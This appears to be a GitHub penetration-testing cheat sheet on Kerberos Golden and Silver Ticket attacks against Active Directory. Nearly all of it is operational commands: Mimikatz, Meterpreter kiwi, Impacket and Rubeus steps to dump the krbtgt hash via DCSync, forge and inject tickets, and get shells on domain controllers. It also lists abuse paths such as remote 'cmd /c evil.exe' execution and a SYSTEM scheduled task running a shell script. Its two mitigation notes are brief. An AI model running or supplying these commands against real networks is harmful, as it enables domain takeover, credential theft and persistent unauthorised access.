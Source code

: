 # GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:krbtgt

#### 4) lsadump::lsa /patch

#### 5) lsadump::trust /patch

#### 6) lsadump::dcsync /user:krbtgt

#### 7) kerberos::purge

#### 8) kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 9) kerberos::tgt

#### 10) misc::cmd

## Alternate method: Meterpreter shell

### Get information for golden ticket

#### 1) dcsync_ntlm krbtgt

#### 2) dcsync krbtgt

### Forge a Golden Ticket

#### 3) load kiwi

#### 4) golden_ticket_create -d DOMAIN_NAME -k NTLM_HASH_OF_KRBTGT -s SID -u Administrator

#### 5) kerberos_ticket_purge

#### 6) kerberos_ticket_use /root/Downloads/Administrator.tck

#### 7) kerberos_ticket_list

### Authenticate with psexec impacket (Linux)

#### 8) ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100

## Alternate Method: Impacket Ticketer

#### 1) python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus

#### 2) export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache

#### 3) python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass

# SILVER TICKET

### Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN

### 1) Create a ticket for the service

 - mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:

 - mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-134912914

### 2) Use same steps as a golden ticket

 - mimikatz.exe "kerberos::golden /domain:DOMAIN /sid:DOMAIN_SID /rc4:HASH /user:USER /service:SERVICE /target:TARGET"

### Inject the ticket

 - mimikatz.exe "kerberos::ptt TICKET_FILE"

 - .\Rubeus.exe ptt /ticket:TICKET_FILE

### Obtain a shell

 - .\PsExec.exe -accepteula \\TARGET cmd

## Silver Ticket on Linux

 - python ticketer.py -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn SERVICE_PRINCIPAL_NAME USER

 - export KRB5CCNAME=/root/impacket-examples/TICKET_NAME.ccache 

 - python psexec.py DOMAIN/USER@TARGET -k -no-pass



# Golden Ticket

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`           | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID`                                              | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`                                                      | Command line utility in Windows to display the contents of the Kerberos ticket cache. |


## TIP: If you need to swap ticket between Windows and Linux, you need to convert them with ticket_converter or kekeo .

### 1) Kekeo

 - misc::convert ccache ticket.kirbi

 - misc::convert kirbi ticket.ccache

### 2) Impacket ticket_converter

 - python ticket_converter.py velociraptor.ccache velociraptor.kirbi

 - python ticket_converter.py velociraptor.kirbi velociraptor.ccache

## MITIGATIONS

### 1) Hard to detect because they are legit TGT tickets

### 2) Mimikatz generates a golden ticket with a life-span of 10 years

## Services to target with a Silver Ticket

### Service Type --> Service Silver Tickets --> Attack

#### 1) WMI --> HOST + RPCSS --> wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"

#### 2) Powershell Remoting --> CIFS + HTTP + (wsman?) --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 3) WinRM --> HTTP+ wsman --> New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 4) Scheduled Tasks --> HOST --> schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"

#### 5) Windows File Share (CIFS) --> CIFS --> dir \\dc01\c$

#### 6) LDAP operations including Mimikatz DCSync --> LDAP --> lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt

#### 7) Windows Remote Server Administration Tools (RSAT) --> RPCSS + LDAP + CIFS --> /

## MITIGATIONS

### Set the attribute "Account is Sensitive and Cannot be Delegated" to prevent lateral movement with the generated ticket.

